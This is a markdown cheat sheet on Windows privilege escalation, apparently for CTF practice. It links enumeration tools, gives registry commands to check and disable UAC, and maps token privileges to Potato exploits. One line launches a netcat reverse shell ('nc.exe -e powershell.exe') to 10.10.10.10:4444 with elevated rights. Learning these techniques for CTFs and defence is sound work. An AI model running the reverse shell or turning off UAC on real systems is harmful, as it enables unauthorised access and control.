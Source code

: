 ## Scripts 
**You might want to check for AV first!**  
For most CTFS all you should need is winPEAS   
[Scripts Reference](https://www.hackingarticles.in/window-privilege-escalation-automated-script/)     
[winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)   
[Other compiled binaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)  
[nishang](https://github.com/samratashok/nishang)  
[JAWS](https://github.com/411Hall/JAWS)   
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)   
[PrivEscCheck](https://github.com/itm4n/PrivescCheck)    
[Privesc.ps1](https://github.com/enjoiz/Privesc/blob/master/privesc.ps1)    
[Windows Exploit Suggester (Next-Generation)](https://github.com/bitsadmin/wesng)        
[Sherlock](https://github.com/rasta-mouse/Sherlock)         
[Seatbelt](https://github.com/GhostPack/Seatbelt)      
[Priv2Admin](https://github.com/gtworek/Priv2Admin)    OS priviliges to system     
[Compiled scripts here](https://github.com/Scr1ptK1ddie/WindowsBinaries)   

## Checklists    
[HackTricks](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)  
[Fuzzy security](http://www.fuzzysecurity.com/tutorials/16.html)    
[Windows 10 Exploits](https://github.com/nu11secur1ty/Windows10Exploits)    

## UAC (User Account Control)    
[Hacktricks - UAC](https://book.hacktricks.xyz/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control)    
Check for UAC (if value is 1, UAC is activated, 0 or key doesn't exist it isn't):  

    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA     
Check UAC Level:    

    REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin    
    whoami /groups | findstr Level    #check level of your user    
Turn off UAC (with admin creds):  

    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f    
If ConsentPromptBehaviorAdmin is 0, exec a shell with high privileges:       

    Start-Process powershell -Verb runAs "C:\Users\gerald\AppData\Local\Temp\nc.exe -e powershell.exe 10.10.10.10 4444"

## Privilege Exploits 
[Reference](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)   
[Token Priv Research](https://github.com/hatRiot/token-priv/tree/master)      

    whoami /priv running process, can enable for different process if user has priv
    #State: disabled for running process, can enable for different process depending on access.
    #Servers with IIS or SQL services -> SeImpersonate or SeAssignPrimaryToken enabled by default     
    SeImpersonatePrivilege -> GodPotato, PrintSpoofer, Juicy Potato, Rogue Potato, Hot Potato
    SeAssignPrimaryTokenPrivilege -> Juicy Potato 
    SeTakeOwnershipPrivilege ->  become the owner of any object and modify the DACL to grant access.  
    SeBackup or SeRestore-> provides full read permissions and ability to make backups   
